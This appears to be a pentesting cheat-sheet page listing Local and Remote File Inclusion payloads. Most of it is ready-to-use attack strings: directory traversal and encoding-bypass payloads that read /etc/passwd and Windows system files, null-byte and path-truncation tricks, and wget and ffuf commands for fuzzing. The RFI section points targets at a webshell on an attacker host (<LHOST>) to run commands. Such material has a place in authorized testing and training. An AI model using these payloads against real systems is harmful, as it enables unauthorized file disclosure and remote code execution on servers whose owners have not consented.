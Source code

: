 # LFI/RFI Payloads

{% hint style="info" %}
For Linux: **/etc/passwd** and **/etc/hosts**. For Windows: **/windows/win.ini**, **\windows\win.ini** and **\windows\system32\drivers\etc\hosts**
{% endhint %}

## LFI payloads

### Manual

```bash
file=/etc/passwd
file=/etc/passwd?
file=../../../../../etc/passwd 
file=/../../../../etc/passwd
file=....//....//....//etc/passwd # If the code deletes ../, then we do this: ....// and when it deletes it, it will look like this: ../
file=..././..././..././..././..././..././etc/passwd
file=....\/....\/....\/etc/passwd
file=%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd # %5c = \
file=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
file=..//..//..//..//..//etc/passwd # Works with 2 slashes or more.
file=<POSSIBLE_PATH>/../../../etc/passwd # Ex: /var/www/images
file=../../../../etc/passwd%00
file=../../../../etc/passwd%00.png 
file=/etc/passwd%00 # POST method.
```

Sometimes browsers get complicated with basic directory traversal sequences, but wget can work:

```bash
wget <URL>?file=../../../../../../../etc/passwd
```

Directory traversal with a slash **/** at the beginning. This is because sometimes the file is called "**lang\_**", and if we use a simple payload, it will be invalid because it would look like this: **lang\_../../../../etc/passwd** . Instead, with this one: **lang\_/.../.../etc/passwd**

```bash
file=/../../../../etc/passwd
```

The following payload only works if you run it in Bash. If it is in PHP, the wildcards (**?** and **\***) will not be replaced by a "**.**":

```bash
file=.?/.*/.?/etc/passwd
```

We can also use special encodings or simply encode twice in URL format:

{% hint style="danger" %}
In PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL-encoding the payload.
{% endhint %}

```bash
# Doble URL Encode:
file=<DOUBLE URL ENCODING =  "../../../../etc/passwd">
%2e%2e%2f = ../
%252e%252e%252f = ../
%2e%2e%5c = ..\
# Special encodings: %252f = ../ - %c0%af = /
file=..%252f..%252f..%252fetc%252fpasswd
file=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
# Others encodings:
# dot             %c0%2e  %e0%40%ae  %c0ae etc.
# forward slash   %c0%af  %e0%80%af  %c0%2f etc.
# backslash       %c0%5c  %c0%80%5c  etc.
```

Path truncation in PHP. Always tries to start the path with a fake directory (a/). This vulnerability was fixed in PHP 5.3:

```bash
file=a/../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\. # 
file=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.
# With the next options, by trial and error, you have to discover how many "../" are needed to delete the appended string but not "/etc/passwd" (near 2027)
file=a/./.[ADD MORE]/etc/passwd
file=a/../../../../[ADD MORE]../../../../../etc/passwd
```

{% embed url="https://jbedelsec.wordpress.com/2018/12/11/exploiting-php-file-truncation-php-5-3" %}

PHP versions prior to 5.5 are vulnerable to **null byte injection**, which means that adding a null byte to the end of the filename should bypass the extension check. For example: `language=/etc/passwd%00` will result in the `include("/etc/passwd%00.php")` statement, where the server ignores everything after the null byte.

{% hint style="info" %}
This happens because C and C++ consider strings to end with null bytes, while PHP does not. The URL-encoded null byte (%00) at the end of the filename is appended to .php but is truncated to /etc/passwd\x00 by the APIs written in C. This results in the inclusion of /etc/passwd instead of /etc/passwd.php when the include() function is called.
{% endhint %}

```bash
# Null byte:
file=../../../../etc/passwd%00.png
```

### Wordlists

```bash
# Linux:
wget https://raw.githubusercontent.com/xmendez/wfuzz/master/wordlist/vulns/dirTraversal-nix.txt
wget https://raw.githubusercontent.com/carlospolop/Auto_Wordlists/main/wordlists/file_inclusion_linux.txt
# Windows:
wget https://raw.githubusercontent.com/xmendez/wfuzz/master/wordlist/vulns/dirTraversal-win.txt
wget https://raw.githubusercontent.com/carlospolop/Auto_Wordlists/main/wordlists/file_inclusion_windows.txt
# Fuzz with ffuf:
ffuf -c -w <WORDLIST> -u '<URL>/index.php?page=FUZZ'
```

## RFI Payloads

{% hint style="danger" %}
Remember to test with **uppercase** and **lowercase prefixes** such as **http**, **ftp**, etc.
{% endhint %}

```bash
<URL>?filename=http://<LHOST>/asd # On web server.
<URL>?filename=ftp://<LHOST>/asd # On FTP server.
<URL>?filename=ftp://user:pass@<LHOST>/asd # On FTP server with credentials.
<URL>?filename=\\<LHOST>\smbFolder\asd # On SMB server (Windows only).
```

After verifying that it is vulnerable, we can create a code (which will be our webshell) in the server language (PHP, ASPX, etc.). You can go to the [WebShells ](../../../general/reverse-shells/web-shells.md)section to find webshells in different programming languages.

We can then pull up an HTTP, FTP, SMB, etc. server and run the payload to point it against our webshell:

```bash
<URL>?filename=http://<LHOST>/shell.php&cmd=whoami # On web server.
<URL>?filename=ftp://<LHOST>/shell.php&whoami # On FTP server.
<URL>?filename=\\<LHOST>\smbFolder\shell.php&whoami # On SMB server (Windows only)
```
